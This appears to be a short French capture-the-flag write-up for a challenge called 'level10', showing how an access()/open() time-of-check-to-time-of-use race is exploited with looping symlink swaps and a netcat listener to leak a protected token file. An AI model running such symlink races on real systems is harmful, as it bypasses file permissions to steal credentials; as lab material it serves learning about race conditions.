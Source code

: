 ```
hexdump -C level10
```

On trouve un appel a `access()` pour verifier si l'utilisateur a droit de faire `open`
Ceci ouvre une vulnerabilite a une attaque de type TOC/TOU.

On setup un fichier qu'on puisse lire:
```
chmod 777 .
echo omae ha mou shindeiru > nani
```

On cree 2 boucles:

```sh
while true;
do
	ln -fs token malicious_link
	ln -fs nani malicious_link
done
```

et

```sh
while true;
do
	./level10 malicious_link 127.0.0.1
done
```

Puis on ecoute les connections avec netcat:
```sh
nc -l -k 6969
```



